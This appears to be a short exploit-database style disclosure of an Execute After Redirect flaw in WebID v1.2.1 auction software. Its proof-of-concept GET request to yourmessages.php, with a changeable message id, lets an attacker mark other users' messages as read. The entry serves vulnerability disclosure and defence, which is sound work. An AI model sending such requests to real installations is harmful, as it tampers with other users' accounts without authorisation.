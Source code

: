 # Exploit Title: Webid v1.2.1 - Execute After Redirect(EAR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from EAR - Execute After Redirect Vulnerability allowing attackers to mark message as read that is owned by other user.

## ---------------------------------POC-----------------------------
```
GET /yourmessages.php?id=9(CHANGE HERE) HTTP/1.1
...
```